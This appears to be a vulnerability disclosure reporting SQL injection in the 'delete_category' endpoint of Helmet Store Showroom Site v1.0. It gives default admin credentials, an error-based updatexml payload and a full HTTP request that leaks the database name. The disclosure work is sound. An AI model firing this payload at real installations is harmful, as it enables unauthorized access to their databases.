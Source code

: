 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer: Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/classes/Master.php?f=delete_category

Vulnerability location: /hss/classes/Master.php?f=delete_category,id

dbname =hss_db,length=6

[+] Payload:  id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /hss/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/hss/admin/?page=categories
Content-Length: 65
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close

id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/204070067-cc39bf17-4f1b-4c93-a24d-626081846914.png)

